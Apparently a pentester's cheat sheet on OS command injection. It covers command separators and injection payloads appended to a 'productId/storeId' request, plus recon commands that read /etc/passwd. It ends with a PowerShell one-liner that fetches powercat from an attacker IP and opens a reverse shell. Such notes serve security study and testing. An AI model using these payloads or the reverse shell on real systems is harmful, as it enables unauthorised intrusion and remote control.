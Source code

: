 # OS Command Injection
Also known as "shell injection"

OS Command Injection Web applications often need to interact with the underlying operating system, such as when a file is created through a file upload mechanism.
Web applications should always offer specific APIs or functionalities that use prepared commands for the interaction with the system. Prepared commands provide a set of functions to the underlying system that cannot be changed by user input. However, these APIs and functions are often very time consuming to plan and develop. Sometimes a web application needs to address a multitude of different cases, and a set of predefined functions can be too inflexible. In these cases, web developers often tend to directly accept user input, then sanitize it. This means that user input is filtered for any command sequences that might try to change the application's behavior for malicious purposes.

















Semicolons can be used in a majority of command lines, such as PowerShell or Bash as a delimiter for multiple commands. Alternatively, we can use URL-encoded semicolon, represented as `%3B`

Two ampersands `&&` to specify two consecutive commands.
For the Windows CMD we can also use one ampersand `&`.














Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point. This reduces the chance that what follows will prevent the injected command from executing.

Example:
`productId=8&storeId=1|whoami`
`productId=8 & whoami & storeId=1`
`productId=8 & whoami # (this is a comment) storeId=1`












How many non-root/non-service/non-daemon users are there?
`awk -F':' '{ if ($3 >= 1000 && $1 != "nobody" ) print $1 }' /etc/passwd | wc -l`

What is the [USER]'s shell set as?
`getent passwd [USER]| awk -F':' '{print $7}'`
	- eg: `getent passwd www-data | awk -F':' '{print $7}'`










## Python
import os; print(os.popen("ls -l").read())
import os; print(open("path/to/your/file.txt", "r").read())









## Windows
Tell wheter is CMD or PowerShell:
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```


### Leverage command injection to achieve system access

- `Powercat` <https://github.com/besimorhino/powercat>

```
IEX (New-Object System.Net.Webclient).DownloadString("http://[ATTACKER IP]/powercat.ps1");powercat -c [ATTACKER IP] -p [PORT] -e powershell
```













